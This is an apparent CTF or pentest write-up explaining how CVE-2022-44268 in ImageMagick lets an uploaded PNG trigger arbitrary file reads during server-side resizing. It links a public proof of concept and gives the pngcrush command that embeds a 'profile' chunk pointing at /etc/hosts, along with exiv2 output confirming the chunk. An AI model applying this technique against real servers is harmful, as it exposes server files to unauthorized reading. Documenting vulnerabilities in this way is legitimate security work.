 A quick Google search reveals a few methods for resizing an image via PHP, and one of them is to use the Imagick library.

A Google search for Imagick-related vulnerabilities quickly turns up CVE-2022-44268

- https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC


This vulnerability makes it possible to add a 'profile' section to our image, and thus trigger an arbitrary file read on the server during conversion.

It's possible to use in-house automated tools to generate the image and parse the output, but it's also possible to do it by hand.

We install the dependencies 

```bash
apt-get install pngcrush imagemagick exiftool exiv2 -y
```

We use pngcrush to add the new section to a PNG to read /etc/hosts :

```bash
pngcrush -text a "profile" "/etc/hosts" sample.png
```

You can confirm that the image has been modified with the following command:

```bash
exiv2 -pS pngout.png
STRUCTURE OF PNG FILE: pngout.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | .......X....                   | 0xba50d3ba
  .....
  111269 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
  111299 | IEND  |       0 |                                | 0xae426082

```

![ModifyImage](/images/insert_profile.png)
